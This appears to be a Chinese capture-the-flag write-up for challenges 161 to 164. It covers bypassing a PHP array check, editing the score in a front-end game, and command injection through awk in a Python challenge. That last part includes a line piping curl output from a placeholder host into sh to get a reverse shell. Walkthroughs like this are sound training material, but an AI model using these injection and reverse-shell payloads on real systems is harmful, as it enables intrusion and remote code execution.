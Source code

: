 ## 161.无一幸免

![image-20241211142650617](D:\ctf wp\161-200.assets\image-20241211142650617.png)

不知道是不是提出错了 arr是赋值而不是比较 那0赋值什么都可以

$arr[]=1 意思是给数组下一个下标赋值为1

如果题目是==
payload：

```
?0=214748364   //使用数组整型溢出绕过赋值式“永真”
?0[]=1   //数组绕过
```

## 162.传说之下（雾）

贪吃蛇游戏 如果代码在前端的话 改个分数就行了

![image-20241211143551392](D:\ctf wp\161-200.assets\image-20241211143551392.png)

直接改分数![image-20241211150005549](D:\ctf wp\161-200.assets\image-20241211150005549.png)

或者改加分机制![image-20241211150041151](D:\ctf wp\161-200.assets\image-20241211150041151.png)

## 163.easyPytHon_P

![image-20241211153626232](D:\ctf wp\161-200.assets\image-20241211153626232.png)

想用cmd=cat&param= / 但是看不了当前目录 所以只能用awk

python中有一个awk命令，可以执行系统命令，长度刚好为3，格式为

```python
awk '{system("ls")}'
```

![image-20241211155828790](D:\ctf wp\161-200.assets\image-20241211155828790.png)![image-20241211155844806](D:\ctf wp\161-200.assets\image-20241211155844806.png)

POST: cmd=awk&param={system("cat flag.txt")} 

或者平台反弹

shell cmd=awk&param={system("curl https://your-shell.com/ip:port|sh")}

## 164.遍地飘零

![image-20241211160845264](D:\ctf wp\161-200.assets\image-20241211160845264.png)

### 变量覆盖![image-20241211163407694](D:\ctf wp\161-200.assets\image-20241211163407694.png)


